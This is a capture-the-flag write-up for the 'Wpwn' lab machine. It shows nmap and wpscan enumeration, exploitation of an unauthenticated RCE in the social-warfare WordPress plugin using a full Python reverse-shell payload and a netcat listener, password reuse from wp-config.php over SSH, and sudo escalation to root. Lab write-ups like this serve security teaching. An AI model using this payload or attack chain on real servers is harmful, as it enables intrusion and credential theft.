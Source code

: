 # Wpwn
Points - 5  
Difficulty - Easy
---

As always we first start with scanning the  ip address      
```
$ nmap -A ip_address
```

![](images/nmap.png)        

There wasn't anything interesting in the port scan.         
We run dirbuster and find a /wordpress, so we run wpscan for any wordpress vulnerabilities.     

We choose the enumerate flag with all plugins.      

```
$ wpscan --url http://ip_address/wordpress -e ap
```

![](images/wpscan.png)

The wpscan found a vulnerability called social-warfare.         

Googling about it I found [this](https://wpscan.com/vulnerability/9259) on wpscan vulns site. It's an unauthenticated RCE (remote code execution) vulnerability.       

![](images/vuln.png)        

From the looks of it we can send any command so I thought of sending a python reverse shell.     

You can find reverse-shells at [PayloadsAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Here's the one for python
```
<pre>system('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip_address",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);\'')</pre>
```
put the above code in a payload.txt on your local directory and host a python server from there using the command       

Don't forget to add replace with your ip_address and port
```
$ python3 -m http.server port
```

Fire up a netcat listener           
```
$ nc -lvnp port
```

Checking the wp-config.php file we can find the passwords used to connect to the database.          

We find a password for wp_user. Another user on this system is takis(found by checking out the home directory).     

Let's try and switch to takis using this password.      
```
$ su takis
```

The authentication was taking a bit of time for me, so I thought of connecting through SSH.         
It worked!!     

First we check the permissions of user takis            
```
takis@wpwn:~$ sudo -l
Matching Defaults entries for takis on wpwn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User takis may run the following commands on wpwn:
    (ALL) NOPASSWD: ALL

```
We can run all commands, so we just switch to root using         
```
$ sudo su
```
Voila, we're root!

![](images/root.png)

You can find the flags by navigating to the /var/www and /root directories